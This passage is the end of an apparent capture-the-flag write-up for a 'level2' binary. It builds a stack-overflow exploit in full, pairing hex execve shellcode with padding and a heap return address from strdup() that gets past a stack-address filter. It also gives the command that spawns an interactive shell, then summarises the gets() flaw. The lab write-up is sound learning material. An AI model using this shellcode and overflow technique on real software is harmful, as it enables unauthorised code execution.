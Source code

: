 
### 5. Final Exploit Payload

We use a standard Linux x86 execve shellcode (`execve("/bin//sh")`), which is 28 bytes long. Then we pad with 52 bytes of junk to reach 80 bytes total, and overwrite EIP with the heap address (`0x0804a008`):

```bash
python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 52 + "\x08\xa0\x04\x08")' > /tmp/exploit
```

We now have a working exploit payload ready to inject. The final step is to run it in the binary and validate that we gain a shell.

```bash
cat /tmp/exploit - | ./level2
```
Using `-` ensures that the standard input remains open after sending the payload, allowing the spawned shell to stay interactive.

---

## Conclusion

Through step-by-step runtime analysis in GDB, we confirmed that the binary:

* Reads user input into a stack-allocated buffer using the unsafe `gets()` function.
* Does not perform bounds checking, allowing us to overwrite the saved return address.
* Implements a filtering check to prevent returning to the stack, by rejecting return addresses that begin with `0xb...`.
* Duplicates the user input to the heap using `strdup()`, giving us an alternative location for shellcode injection.

By crafting a payload containing shellcode followed by padding and the address returned by `strdup()`, we successfully redirected the program’s execution flow and gained code execution.

This level demonstrates a more advanced exploitation scenario where direct stack execution is blocked. It reinforces the importance of analyzing runtime behavior, stack layout, and how functions like `strdup()` can introduce useful side effects when building a working exploit.
